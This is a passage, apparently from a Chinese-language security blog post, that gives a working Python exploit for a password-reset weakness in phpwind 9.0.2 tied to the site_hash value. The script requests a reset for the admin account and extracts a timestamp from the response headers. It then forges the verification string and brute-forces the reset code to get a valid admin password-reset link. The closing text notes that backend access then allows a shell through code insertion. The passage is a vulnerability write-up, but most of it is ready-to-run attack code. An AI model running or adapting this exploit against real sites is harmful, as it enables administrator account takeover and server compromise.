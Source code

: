 ```
        'csrf_token':csrf_token,
    }
    # request for checkusername
    html = r.post(url + '/index.php?m=u&c=findPwd&a=checkUsername', headers=header, data=datas)
    data = re.findall(r'(?<=csrf_token" value=")\w+', html.text)
    csrf_token = data[0]
    # request for findpwd
    header = {
        'Cookie': 'csrf_token={0};'.format(csrf_token),
    }
    datas = {
        'username':username,
        'email':email,
        'csrf_token':csrf_token,
    }
    html = r.post(url + '/index.php?m=u&c=findPwd&a=dobymail', headers=header, data=datas)
    if "我们已经发送邮件至您的邮箱" in html.text:
        print('重置连接发送成功')
        t = re.findall(r'(?<=lMd_lastvisit=0%09).*(?=%09%2Fphpwind)', str(html.headers))[0]
        return int(t)
    elif "邮箱和用户名不匹配" in html.text:
        print('邮箱和用户名不匹配')
        return False

if __name__ == '__main__':
    base_url = "http://10.10.10.134:8080/phpwind9/"
    username ='admin'
    email = 'xxxx@qq.com'
    site_hash = 'TbJlLkai'
    timestamp = 1
    timestamp = request(url=base_url, username=username, email=email)
    verification = des_encrypt(s=username+"|"+'email'+"|"+email, key=site_hash+'___findpwd')
    verification = verification.decode('utf-8')
    for v in verification:
        if v not in string.digits and v not in string.ascii_letters:
            verification = verification.replace(v, quote(quote(v, encoding='utf-8'),encoding='utf-8'))
    print(verification)
    print(timestamp)
    print(md5(str(timestamp)))
    if timestamp:
        for i in range(0, 8):
            code = md5(str(timestamp))[i+1:i+9]
            url = base_url + 'index.php?m=u&c=findPwd&a=resetpwd&code={0}&_statu={1}'.format(code, verification)
            html = r.get(url)
            # print(url)
            if '新密码' in html.text:
                print(url)
```
![6.png](https://lockcy-github-io.vercel.app/2022/05/05/phpwind9-0-2-site-hash%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/6.png)  
访问连接即可重置管理员密码  
![7.png](https://lockcy-github-io.vercel.app/2022/05/05/phpwind9-0-2-site-hash%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/7.png)  
重置密码进入后台后可以通过插入代码的方式getshell。  
